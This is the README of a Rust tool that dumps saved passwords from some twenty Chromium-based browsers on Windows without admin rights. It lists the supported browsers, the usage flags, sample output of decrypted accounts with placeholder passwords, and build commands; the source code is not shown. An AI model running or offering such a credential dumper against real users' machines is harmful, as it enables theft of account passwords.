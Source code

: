 # chrome-pwd-dumper-rs
A Windows Chromium based password dumper written in rust

<p align="center">
  <img width="500" height="380" src="./logo.png">
</p>

## Supported browsers
- Microsoft Edge
- Google Chrome
- Chromium
- 7star
- Amigo
- Brave
- Cent Browser
- Chedot
- Chrome Canary
- Coccoc Browser
- Comodo Dragon
- Elements Browser
- Epic Privacy Browser
- Kometa
- Orbitum
- Sputnik
- Torch Browser
- uCozMedia Uran
- Vivaldi
- Mail.Ru Atom

## Compatibility
- Tested Microsoft Windows 10 Education 64-bit (Build 17763)
- Tested Microsoft Windows 7 SP1 64-bit (Build 7601)

You can make a PR if it works on older versions of Windows

## Flags
```
Usage: chrome-pwd-dumper.exe [-b <browsers...>] [--json] --file-name <file-name> [--print]

Windows Chromium based password dumper that doesn't require admin rights

Options:
  -b, --browsers    select a browser. If left blank, program will try to get all
                    the data available. Browsers selection: `edge`, `chromium`,
                    `7star`, `amigo`, `brave`, `centbrowser`, `chedot`,
                    `chrome_canary`, `coccoc`, `dragon`, `elements-browser`,
                    `epic-privacy-browser`, `chrome`, `kometa`, `orbitum`,
                    `sputnik`, `torch`, `ucozmedia`, `vivaldi`, `atom-mailru`
  --json            available format `json`, `txt`
  --file-name       file name of output file
  --print           print to stdout
  --help            display usage information
```

## Example Usage
```
chrome-pwd-dump
er.exe -b edge --json --file-name dump2.txt --print
[
    Dumper {
        app_info: AppInfo {
            name: "Edge",
            author: "Microsoft",
        },
        accounts: [
            DecryptedAccount {
                website: "https://www.mcdelivery.com.sg/",
                username_value: "chromedumper@gmail.com",
                pwd: "xXxChromePwdDumperxXx",
            },
            DecryptedAccount {
                website: "https://www.singpass.gov.sg/",
                username_value: "",
                pwd: "xXxChromePwdDumperxXx",
            },
            DecryptedAccount {
                website: "https://careers.tiktok.com/",
                username_value: "chromedumper@gmail.com",
                pwd: "xXxChromePwdDumperxXx",
            },
        ],
    },
]
```

## How to build
```
// recommended
cargo build --release

// for more optimised builds (If target is not the same as your cpu it might not work!)
cargo rustc --release -- -C target-cpu=native

// Optimise for binary size
// Current config builds with opt-level = 3 for performance
// Change to opt-level = 'z' in Cargo.toml 

```

## License
chrome-pwd-dumper-rs is licensed under MIT license (LICENSE-MIT or http://opensource.org/licenses/MIT)
